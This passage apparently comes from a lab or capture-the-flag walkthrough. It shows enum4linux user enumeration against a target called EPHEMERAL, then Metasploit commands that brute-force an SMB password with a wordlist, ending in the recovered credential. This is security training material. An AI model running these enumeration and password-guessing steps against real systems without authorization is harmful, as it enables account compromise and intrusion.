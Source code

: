 ```bash
[I] Found new SID:                                                                                                                                         S-1-22-1                                                                                                                                                   [I] Found new SID:                                                                                                                                         S-1-5-32                                                                                                                                                   [I] Found new SID:                                                                                                                                         S-1-5-32                                                                                                                                                   [I] Found new SID:                                                                                                                                         S-1-5-32                                                                                                                                                   [I] Found new SID:                                                                                                                                         S-1-5-32        
                                                                                                                                           [+] Enumerating users using SID S-1-5-21-1796334311-1091253459-1090880117 and logon username '', password ''                                               S-1-5-21-1796334311-1091253459-1090880117-501 EPHEMERAL\nobody (Local User)                                                                                S-1-5-21-1796334311-1091253459-1090880117-513 EPHEMERAL\None (Domain Group)S-1-5-21-1796334311-1091253459-1090880117-1001 EPHEMERAL\randy (Local User)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                S-1-22-1-1000 Unix User\randy (Local User)                                                                                                                 S-1-22-1-1001 Unix User\ralph (Local User)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''                                                                                S-1-5-32-544 BUILTIN\Administrators (Local Group)                                                                                                          S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
enum4linux complete on Sat Aug 10 17:22:45 2024
```

**Open metasploit and use the smb_login module to crack the randy password:**

```bash
$ msfconsole
msf6 > use scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS 192.168.5.122
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/nmap.lst
msf6 auxiliary(scanner/smb/smb_login) > set SMBUSER randy
msf6 auxiliary(scanner/smb/smb_login) > run

[*] 192.168.5.122:445     - 192.168.5.122:445 - Starting SMB login bruteforce
...
[-] 192.168.5.122:445     - 192.168.5.122:445 - Failed: '.\randy:inlove',
[-] 192.168.5.122:445     - 192.168.5.122:445 - Failed: '.\randy:batista',
[-] 192.168.5.122:445     - 192.168.5.122:445 - Failed: '.\randy:bestfriends',
[-] 192.168.5.122:445     - 192.168.5.122:445 - Failed: '.\randy:marian',
[-] 192.168.5.122:445     - 192.168.5.122:445 - Failed: '.\randy:gerald',
[-] 192.168.5.122:445     - 192.168.5.122:445 - Failed: '.\randy:carebear',
[-] 192.168.5.122:445     - 192.168.5.122:445 - Failed: '.\randy:green',
[-] 192.168.5.122:445     - 192.168.5.122:445 - Failed: '.\randy:daddy1',
[+] 192.168.5.122:445     - 192.168.5.122:445 - Success: '.\randy:pogiako'
[*] 192.168.5.122:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

